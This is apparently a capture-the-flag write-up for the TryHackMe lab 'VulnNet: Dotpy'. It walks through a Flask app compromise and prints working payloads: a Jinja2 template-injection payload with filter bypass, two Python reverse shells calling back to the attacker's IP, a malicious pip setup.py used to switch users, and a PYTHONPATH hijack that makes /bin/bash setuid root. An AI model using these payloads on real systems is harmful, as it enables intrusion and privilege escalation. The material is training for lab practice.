

# TryHackMe-VulnNet: Dotpy

**Scope:**

- Server-Side Template Injection (SSTI)
- Server-Side Template Injection (SSTI)

**Keywords:**

- Server-Side Template Injection (SSTI)
- Remote Code Execution (RCE)
- python
- pip
- PYTHONPATH Manipulation

**Main Commands:**

- `nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -F $target_ip`
- `flask-unsign --decode --cookie '.eJwlzk1qAzEMBeC7eN2FLFuynMsM-jMJhRZmklXp3ePSpR56j--nHOvM615uz_OVH-V4RLkVJIVIc481K2dA81GNEXsdpNNG7b6mO7QYHpghJJKLO0uzRhqhskv7jWxk8BTRjjqGmrcE7L4Hl_kMRaIVNBWTWmPQLjygbMjryvNfU_fp17mO5_dnfu1A_3SggLiIuDUjNciagjy78bTYBgAtv293_UAV.Z25eBg.vjMPDBQCeZnSBrtx7gEWiyM24mE'`

**System Commands:**

- `sudo PYTHONPATH=/tmp/pip-jf81agq4-build /usr/bin/python3 /opt/backup.py`
- `ls -lhsa /bin/bash`
- `/bin/bash -p`
- `getent group system-adm`
- `SHELL=/bin/bash script -q /dev/null`
- `export TERM=xterm`
- `sudo -l`
- `cat .env`
- `ss -tulwn`
- `grep -e \/sh -e bash /etc/passwd`

### Laboratory Environment

[VulnNet: dotpy](https://tryhackme.com/r/room/vulnnetdotpy)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -F $target_ip`

```powershell
PORT     STATE SERVICE VERSION
8080/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-title: VulnNet Entertainment -  Login  | Discover
|_Requested resource was http://vulnnet.thm:8080/login
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
```

> **HTTP Port Check**
> 

`curl -iLX GET -D response.txt http://vulnnet.thm:8080`

```powershell
HTTP/1.0 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 219
Location: http://vulnnet.thm:8080/login
Server: Werkzeug/1.0.1 Python/3.6.9
Date: Fri, 27 Dec 2024 07:40:59 GMT

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 5589
Vary: Cookie
Set-Cookie: session=eyJfZnJlc2giOmZhbHNlLCJjc3JmX3Rva2VuIjoiZTM1MTI3MzVhMzEwZmU3MDM4YzU0ZmQwZTU4OTIzNzQ4ZGQzN2U3OSJ9.Z25aCw.iCefejT43EFjpecOr2U2AlUQxD0; HttpOnly; Path=/
Server: Werkzeug/1.0.1 Python/3.6.9
Date: Fri, 27 Dec 2024 07:40:59 GMT

[REDACTED] - MORE
```



> **Internal Logic Discovery Phase**
> 


**CREDENTIAL:**

```powershell
overthenet:overthenet
```


**COOKIE:**

```powershell
.eJwlzk1qAzEMBeC7eN2FLFuynMsM-jMJhRZmklXp3ePSpR56j--nHOvM615uz_OVH-V4RLkVJIVIc481K2dA81GNEXsdpNNG7b6mO7QYHpghJJKLO0uzRhqhskv7jWxk8BTRjjqGmrcE7L4Hl_kMRaIVNBWTWmPQLjygbMjryvNfU_fp17mO5_dnfu1A_3SggLiIuDUjNciagjy78bTYBgAtv293_UAV.Z25eBg.vjMPDBQCeZnSBrtx7gEWiyM24mE
```

`flask-unsign --decode --cookie '.eJwlzk1qAzEMBeC7eN2FLFuynMsM-jMJhRZmklXp3ePSpR56j--nHOvM615uz_OVH-V4RLkVJIVIc481K2dA81GNEXsdpNNG7b6mO7QYHpghJJKLO0uzRhqhskv7jWxk8BTRjjqGmrcE7L4Hl_kMRaIVNBWTWmPQLjygbMjryvNfU_fp17mO5_dnfu1A_3SggLiIuDUjNciagjy78bTYBgAtv293_UAV.Z25eBg.vjMPDBQCeZnSBrtx7gEWiyM24mE'`

```powershell
{'_fresh': True, '_id': '25a0debccdf916ed03c71b6224175a9b714cf9cc03d7cd2ed8588ef64683b35adda8d037145b7ed6988a42a77abc3e024c3c7fbc9da255fd59a2e53360a48670', '_user_id': '1', 'csrf_token': 'aa0de0a022f55633b5ab0e1e82694b69bd35a00a'}
```

> **Server-Side Template Injection (SSTI) & Remote Code Execution (RCE) Phase**
> 

**For more information:**

[PayloadsAllTheThings/Server Side Template Injection/README.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---filter-bypass)

[Jinja2 SSTI | HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)


**PAYLOAD:**

```powershell
{{config}}
```

**OUTPUT:**

```powershell
<Config {'ENV': 'production', 'DEBUG': True, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'S3cr3t_K#Key', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_DATABASE_URI': 'sqlite:////home/web/shuriken-dotpy/db.sqlite3', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}}>
```


**PAYLOAD:**

```powershell
{{request.application.globals.builtins.import('os').popen('id').read()}}
```


`urlencode "{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}"`

```powershell
%7B%7Brequest%7Cattr%28%27application%27%29%7Cattr%28%27%5Cx5f%5Cx5fglobals%5Cx5f%5Cx5f%27%29%7Cattr%28%27%5Cx5f%5Cx5fgetitem%5Cx5f%5Cx5f%27%29%28%27%5Cx5f%5Cx5fbuiltins%5Cx5f%5Cx5f%27%29%7Cattr%28%27%5Cx5f%5Cx5fgetitem%5Cx5f%5Cx5f%27%29%28%27%5Cx5f%5Cx5fimport%5Cx5f%5Cx5f%27%29%28%27os%27%29%7Cattr%28%27popen%27%29%28%27id%27%29%7Cattr%28%27read%27%29%28%29%7D%7D
```


**RAW PAYLOAD:**

```powershell
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

**ENCODED PAYLOAD:**

```powershell
%7B%7Brequest%7Cattr%28%27application%27%29%7Cattr%28%27%5Cx5f%5Cx5fglobals%5Cx5f%5Cx5f%27%29%7Cattr%28%27%5Cx5f%5Cx5fgetitem%5Cx5f%5Cx5f%27%29%28%27%5Cx5f%5Cx5fbuiltins%5Cx5f%5Cx5f%27%29%7Cattr%28%27%5Cx5f%5Cx5fgetitem%5Cx5f%5Cx5f%27%29%28%27%5Cx5f%5Cx5fimport%5Cx5f%5Cx5f%27%29%28%27os%27%29%7Cattr%28%27popen%27%29%28%27id%27%29%7Cattr%28%27read%27%29%28%29%7D%7D
```

> **Reverse Shell Phase**
> 

`nano pythonreverse.txt`

```powershell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.37.37",10222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```


**OUTPUT:**

```powershell
\x70\x79\x74\x68\x6f\x6e\x33\x20\x2d\x63\x20\x27\x69\x6d\x70\x6f\x72\x74\x20\x73\x6f\x63\x6b\x65\x74\x2c\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2c\x6f\x73\x3b\x73\x3d\x73\x6f\x63\x6b\x65\x74\x2e\x73\x6f\x63\x6b\x65\x74\x28\x73\x6f\x63\x6b\x65\x74\x2e\x41\x46\x5f\x49\x4e\x45\x54\x2c\x73\x6f\x63\x6b\x65\x74\x2e\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x29\x3b\x73\x2e\x63\x6f\x6e\x6e\x65\x63\x74\x28\x28\x22\x31\x30\x2e\x32\x2e\x33\x37\x2e\x33\x37\x22\x2c\x31\x30\x32\x32\x32\x29\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x30\x29\x3b\x20\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x31\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x32\x29\x3b\x69\x6d\x70\x6f\x72\x74\x20\x70\x74\x79\x3b\x20\x70\x74\x79\x2e\x73\x70\x61\x77\x6e\x28\x22\x73\x68\x22\x29\x27
```

**For online tool:**

[CyberChef](https://gchq.github.io/CyberChef/)


**RAW PAYLOAD:**

```powershell
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('\x70\x79\x74\x68\x6f\x6e\x33\x20\x2d\x63\x20\x27\x69\x6d\x70\x6f\x72\x74\x20\x73\x6f\x63\x6b\x65\x74\x2c\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2c\x6f\x73\x3b\x73\x3d\x73\x6f\x63\x6b\x65\x74\x2e\x73\x6f\x63\x6b\x65\x74\x28\x73\x6f\x63\x6b\x65\x74\x2e\x41\x46\x5f\x49\x4e\x45\x54\x2c\x73\x6f\x63\x6b\x65\x74\x2e\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x29\x3b\x73\x2e\x63\x6f\x6e\x6e\x65\x63\x74\x28\x28\x22\x31\x30\x2e\x32\x2e\x33\x37\x2e\x33\x37\x22\x2c\x31\x30\x32\x32\x32\x29\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x30\x29\x3b\x20\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x31\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x32\x29\x3b\x69\x6d\x70\x6f\x72\x74\x20\x70\x74\x79\x3b\x20\x70\x74\x79\x2e\x73\x70\x61\x77\x6e\x28\x22\x73\x68\x22\x29\x27')|attr('read')()}}
```

**OUTPUT:**

```powershell
%7b%7b%72%65%71%75%65%73%74%7c%61%74%74%72%28%27%61%70%70%6c%69%63%61%74%69%6f%6e%27%29%7c%61%74%74%72%28%27%5c%78%35%66%5c%78%35%66%67%6c%6f%62%61%6c%73%5c%78%35%66%5c%78%35%66%27%29%7c%61%74%74%72%28%27%5c%78%35%66%5c%78%35%66%67%65%74%69%74%65%6d%5c%78%35%66%5c%78%35%66%27%29%28%27%5c%78%35%66%5c%78%35%66%62%75%69%6c%74%69%6e%73%5c%78%35%66%5c%78%35%66%27%29%7c%61%74%74%72%28%27%5c%78%35%66%5c%78%35%66%67%65%74%69%74%65%6d%5c%78%35%66%5c%78%35%66%27%29%28%27%5c%78%35%66%5c%78%35%66%69%6d%70%6f%72%74%5c%78%35%66%5c%78%35%66%27%29%28%27%6f%73%27%29%7c%61%74%74%72%28%27%70%6f%70%65%6e%27%29%28%27%5c%78%37%30%5c%78%37%39%5c%78%37%34%5c%78%36%38%5c%78%36%66%5c%78%36%65%5c%78%33%33%5c%78%32%30%5c%78%32%64%5c%78%36%33%5c%78%32%30%5c%78%32%37%5c%78%36%39%5c%78%36%64%5c%78%37%30%5c%78%36%66%5c%78%37%32%5c%78%37%34%5c%78%32%30%5c%78%37%33%5c%78%36%66%5c%78%36%33%5c%78%36%62%5c%78%36%35%5c%78%37%34%5c%78%32%63%5c%78%37%33%5c%78%37%35%5c%78%36%32%5c%78%37%30%5c%78%37%32%5c%78%36%66%5c%78%36%33%5c%78%36%35%5c%78%37%33%5c%78%37%33%5c%78%32%63%5c%78%36%66%5c%78%37%33%5c%78%33%62%5c%78%37%33%5c%78%33%64%5c%78%37%33%5c%78%36%66%5c%78%36%33%5c%78%36%62%5c%78%36%35%5c%78%37%34%5c%78%32%65%5c%78%37%33%5c%78%36%66%5c%78%36%33%5c%78%36%62%5c%78%36%35%5c%78%37%34%5c%78%32%38%5c%78%37%33%5c%78%36%66%5c%78%36%33%5c%78%36%62%5c%78%36%35%5c%78%37%34%5c%78%32%65%5c%78%34%31%5c%78%34%36%5c%78%35%66%5c%78%34%39%5c%78%34%65%5c%78%34%35%5c%78%35%34%5c%78%32%63%5c%78%37%33%5c%78%36%66%5c%78%36%33%5c%78%36%62%5c%78%36%35%5c%78%37%34%5c%78%32%65%5c%78%35%33%5c%78%34%66%5c%78%34%33%5c%78%34%62%5c%78%35%66%5c%78%35%33%5c%78%35%34%5c%78%35%32%5c%78%34%35%5c%78%34%31%5c%78%34%64%5c%78%32%39%5c%78%33%62%5c%78%37%33%5c%78%32%65%5c%78%36%33%5c%78%36%66%5c%78%36%65%5c%78%36%65%5c%78%36%35%5c%78%36%33%5c%78%37%34%5c%78%32%38%5c%78%32%38%5c%78%32%32%5c%78%33%31%5c%78%33%30%5c%78%32%65%5c%78%33%32%5c%78%32%65%5c%78%33%33%5c%78%33%37%5c%78%32%65%5c%78%33%33%5c%78%33%37%5c%78%32%32%5c%78%32%63%5c%78%33%31%5c%78%33%30%5c%78%33%32%5c%78%33%32%5c%78%33%32%5c%78%32%39%5c%78%32%39%5c%78%33%62%5c%78%36%66%5c%78%37%33%5c%78%32%65%5c%78%36%34%5c%78%37%35%5c%78%37%30%5c%78%33%32%5c%78%32%38%5c%78%37%33%5c%78%32%65%5c%78%36%36%5c%78%36%39%5c%78%36%63%5c%78%36%35%5c%78%36%65%5c%78%36%66%5c%78%32%38%5c%78%32%39%5c%78%32%63%5c%78%33%30%5c%78%32%39%5c%78%33%62%5c%78%32%30%5c%78%36%66%5c%78%37%33%5c%78%32%65%5c%78%36%34%5c%78%37%35%5c%78%37%30%5c%78%33%32%5c%78%32%38%5c%78%37%33%5c%78%32%65%5c%78%36%36%5c%78%36%39%5c%78%36%63%5c%78%36%35%5c%78%36%65%5c%78%36%66%5c%78%32%38%5c%78%32%39%5c%78%32%63%5c%78%33%31%5c%78%32%39%5c%78%33%62%5c%78%36%66%5c%78%37%33%5c%78%32%65%5c%78%36%34%5c%78%37%35%5c%78%37%30%5c%78%33%32%5c%78%32%38%5c%78%37%33%5c%78%32%65%5c%78%36%36%5c%78%36%39%5c%78%36%63%5c%78%36%35%5c%78%36%65%5c%78%36%66%5c%78%32%38%5c%78%32%39%5c%78%32%63%5c%78%33%32%5c%78%32%39%5c%78%33%62%5c%78%36%39%5c%78%36%64%5c%78%37%30%5c%78%36%66%5c%78%37%32%5c%78%37%34%5c%78%32%30%5c%78%37%30%5c%78%37%34%5c%78%37%39%5c%78%33%62%5c%78%32%30%5c%78%37%30%5c%78%37%34%5c%78%37%39%5c%78%32%65%5c%78%37%33%5c%78%37%30%5c%78%36%31%5c%78%37%37%5c%78%36%65%5c%78%32%38%5c%78%32%32%5c%78%37%33%5c%78%36%38%5c%78%32%32%5c%78%32%39%5c%78%32%37%27%29%7c%61%74%74%72%28%27%72%65%61%64%27%29%28%29%7d%7d
```

`nc -nlvp 10222`

```powershell
listening on [any] 10222 ...
```


```powershell
listening on [any] 10222 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.15.164] 53028

$ whoami
whoami
web
$ id
id
uid=1001(web) gid=1001(web) groups=1001(web)
$ pwd
pwd
/home/web/shuriken-dotpy
$ SHELL=/bin/bash script -q /dev/null
web@vulnnet-dotpy:~/shuriken-dotpy$ export TERM=xterm

web@vulnnet-dotpy:~/shuriken-dotpy$ uname -a
Linux vulnnet-dotpy 4.15.0-128-generic #131-Ubuntu SMP Wed Dec 9 06:57:35 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

web@vulnnet-dotpy:~/shuriken-dotpy$ dpkg --version
Debian 'dpkg' package management program version 1.19.0.5 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.

web@vulnnet-dotpy:~/shuriken-dotpy$ ls -lsa /home
total 20
4 drwxr-xr-x  5 root       root       4096 Dec 21  2020 .
4 drwxr-xr-x 23 root       root       4096 Dec 20  2020 ..
4 drw-------  2 manage     manage     4096 Dec 21  2020 manage
4 drwxr-x--- 17 system-adm system-adm 4096 Jan 26  2021 system-adm
4 drwxr-xr-x 18 web        web        4096 Jan 26  2021 web

web@vulnnet-dotpy:~/shuriken-dotpy$ ls -lsa /home/web
total 104
4 drwxr-xr-x 18 web  web  4096 Jan 26  2021 .
4 drwxr-xr-x  5 root root 4096 Dec 21  2020 ..
0 lrwxrwxrwx  1 root root    9 Dec 21  2020 .bash_history -> /dev/null
4 -rw-r--r--  1 web  web   220 Dec 21  2020 .bash_logout
4 -rw-r--r--  1 web  web  3853 Dec 21  2020 .bashrc
4 drwx------  9 web  web  4096 Dec 23  2020 .cache
4 drwxrwxr-x 14 web  web  4096 Dec 23  2020 .config
4 drwx------  3 web  web  4096 Dec 23  2020 .dbus
4 drwx------  2 web  web  4096 Dec 23  2020 Desktop
4 -rw-r--r--  1 web  web    26 Dec 23  2020 .dmrc
4 drwxr-xr-x  2 web  web  4096 Dec 23  2020 Documents
4 drwxr-xr-x  2 web  web  4096 Dec 23  2020 Downloads
4 drwx------  3 web  web  4096 Dec 23  2020 .gnupg
4 drwxrwxr-x  5 web  web  4096 Dec 23  2020 .local
4 drwx------  5 web  web  4096 Dec 23  2020 .mozilla
4 drwxr-xr-x  2 web  web  4096 Dec 23  2020 Music
4 drwxr-xr-x  2 web  web  4096 Dec 23  2020 Pictures
4 drwxrwxr-x  5 web  web  4096 Dec 27 08:16 .pm2
4 -rw-r--r--  1 web  web   807 Dec 21  2020 .profile
4 drwxr-xr-x  2 web  web  4096 Dec 23  2020 Public
4 drwxr-xr-x  8 web  web  4096 Dec 27 08:57 shuriken-dotpy
4 drwxr-xr-x  2 web  web  4096 Dec 23  2020 Templates
4 drwxr-xr-x  2 web  web  4096 Dec 23  2020 Videos
4 -rw-------  1 web  web    59 Jan 26  2021 .Xauthority
4 -rw-r--r--  1 web  web    14 Feb 12  2018 .xscreensaver
4 -rw-------  1 web  web  2495 Jan 26  2021 .xsession-errors
4 -rw-------  1 web  web  2495 Dec 23  2020 .xsession-errors.old

web@vulnnet-dotpy:~/shuriken-dotpy$ 

```

> **Internal System Investigation & Switch User Phase**
> 

**For more information:**

[pip
            
            |
            
            GTFOBins](https://gtfobins.github.io/gtfobins/pip/#sudo)

```powershell
web@vulnnet-dotpy:~/shuriken-dotpy$ grep -e \/sh -e bash /etc/passwd
root:x:0:0:root:/root:/bin/bash
system-adm:x:1000:1000:system-adm,,,:/home/system-adm:/bin/bash
web:x:1001:1001:,,,:/home/web:/bin/bash
manage:x:1002:1002:,,,:/home/manage:/bin/bash

web@vulnnet-dotpy:~/shuriken-dotpy$ cat .env
DEBUG=True
SECRET_KEY=S3cr3t_K#Key
DB_ENGINE=postgresql
DB_NAME=appseed-flask
DB_HOST=localhost
DB_PORT=5432
DB_USERNAME=appseed
DB_PASS=pass

web@vulnnet-dotpy:~/shuriken-dotpy$ ss -tulwn
Netid State   Recv-Q  Send-Q         Local Address:Port      Peer Address:Port  
icmp6 UNCONN  0       0                     *%eth0:58                   *:*     
udp   UNCONN  0       0              127.0.0.53%lo:53             0.0.0.0:*     
udp   UNCONN  0       0          10.10.15.164%eth0:68             0.0.0.0:*     
udp   UNCONN  0       0                    0.0.0.0:5353           0.0.0.0:*     
udp   UNCONN  0       0                    0.0.0.0:52492          0.0.0.0:*     
udp   UNCONN  0       0                       [::]:41118             [::]:*     
udp   UNCONN  0       0                       [::]:5353              [::]:*     
tcp   LISTEN  0       128                  0.0.0.0:8080           0.0.0.0:*     
tcp   LISTEN  0       128            127.0.0.53%lo:53             0.0.0.0:*     

web@vulnnet-dotpy:~/shuriken-dotpy$ sudo -l
Matching Defaults entries for web on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User web may run the following commands on vulnnet-dotpy:
    (system-adm) NOPASSWD: /usr/bin/pip3 install *

web@vulnnet-dotpy:~/shuriken-dotpy$ cd /dev/shm
web@vulnnet-dotpy:/dev/shm$ mkdir privadm && cd privadm

web@vulnnet-dotpy:/dev/shm/privadm$ 
```

`nano pythonadmreverse.py`

```powershell
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.2.37.37",10221))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```

`nc -nlvp 10221`

```powershell
listening on [any] 10221 ...
```

`python3 -m http.server 8000`

```powershell
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ..
```

```powershell
web@vulnnet-dotpy:/dev/shm/privadm$ wget http://10.2.37.37:8000/pythonadmreverse.py

pythonadmreverse.py 100%[===================>]     211  --.-KB/s    in 0s      

2024-12-27 09:55:01 (26.2 MB/s) - ‘pythonadmreverse.py’ saved [211/211]

web@vulnnet-dotpy:/dev/shm/privadm$ mv pythonadmreverse.py setup.py
web@vulnnet-dotpy:/dev/shm/privadm$ sudo -u system-adm /usr/bin/pip3 install .

Processing /dev/shm/privadm
```

```powershell
listening on [any] 10221 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.15.164] 57354

system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ whoami
system-adm
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ pwd
/tmp/pip-jf81agq4-build
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ id
uid=1000(system-adm) gid=1000(system-adm) groups=1000(system-adm),24(cdrom)

system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ SHELL=/bin/bash script -q /dev/null
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ export TERM=xterm
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ groups
system-adm cdrom
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ getent group system-adm
system-adm:x:1000:
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ 
```

> **Privilege Escalation with Internal Logic & PYTHONPATH Phase**
> 

```powershell
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ : sudo -l
Matching Defaults entries for system-adm on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User system-adm may run the following commands on vulnnet-dotpy:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py
    
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ ls -lsa /opt
total 12
4 drwxr-xr-x  2 root root 4096 Dec 21  2020 .
4 drwxr-xr-x 23 root root 4096 Dec 20  2020 ..
4 -rwxrwxr--  1 root root 2125 Dec 21  2020 backup.py

system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ cat /opt/backup.py

from datetime import datetime
from pathlib import Path
import zipfile

OBJECT_TO_BACKUP = '/home/manage'  # The file or directory to backup
BACKUP_DIRECTORY = '/var/backups'  # The location to store the backups in
MAX_BACKUP_AMOUNT = 300  # The maximum amount of backups to have in BACKUP_DIRECTORY

object_to_backup_path = Path(OBJECT_TO_BACKUP)
backup_directory_path = Path(BACKUP_DIRECTORY)
assert object_to_backup_path.exists()  # Validate the object we are about to backup exists before we continue

# Validate the backup directory exists and create if required
backup_directory_path.mkdir(parents=True, exist_ok=True)

# Get the amount of past backup zips in the backup directory already
existing_backups = [
    x for x in backup_directory_path.iterdir()
    if x.is_file() and x.suffix == '.zip' and x.name.startswith('backup-')
]

# Enforce max backups and delete oldest if there will be too many after the new backup
oldest_to_newest_backup_by_name = list(sorted(existing_backups, key=lambda f: f.name))
while len(oldest_to_newest_backup_by_name) >= MAX_BACKUP_AMOUNT:  # >= because we will have another soon
    backup_to_delete = oldest_to_newest_backup_by_name.pop(0)
    backup_to_delete.unlink()

# Create zip file (for both file and folder options)
backup_file_name = f'backup-{datetime.now().strftime("%Y%m%d%H%M%S")}-{object_to_backup_path.name}.zip'
zip_file = zipfile.ZipFile(str(backup_directory_path / backup_file_name), mode='w')
if object_to_backup_path.is_file():
    # If the object to write is a file, write the file
    zip_file.write(
        object_to_backup_path.absolute(),
        arcname=object_to_backup_path.name,
        compress_type=zipfile.ZIP_DEFLATED
    )
elif object_to_backup_path.is_dir():
    # If the object to write is a directory, write all the files
    for file in object_to_backup_path.glob('**/*'):
        if file.is_file():
            zip_file.write(
                file.absolute(),
                arcname=str(file.relative_to(object_to_backup_path)),
                compress_type=zipfile.ZIP_DEFLATED
            )
# Close the created zip file
zip_file.close()

system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ 

```

`nano rootpython.py`

```powershell
import os
os.system('chmod +s /bin/bash')
```

```powershell
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ wget http://10.2.37.37:8000/rootpython.py

rootpython.py       100%[===================>]      42  --.-KB/s    in 0s      

2024-12-27 10:05:48 (6.57 MB/s) - ‘rootpython.py’ saved [42/42]

system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ mv rootpython.py zipfile.py
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ sudo PYTHONPATH=/tmp/pip-jf81agq4-build /usr/bin/python3 /opt/backup.py
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ ls -lhsa /bin/bash
-rwsr-sr-x 1 root root 1.1M Apr  4  2018 /bin/bash

system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ /bin/bash -p

bash-4.4# whoami
root
bash-4.4# id
uid=1000(system-adm) gid=1000(system-adm) euid=0(root) egid=0(root) groups=0(root),24(cdrom),1000(system-adm)
bash-4.4# 

```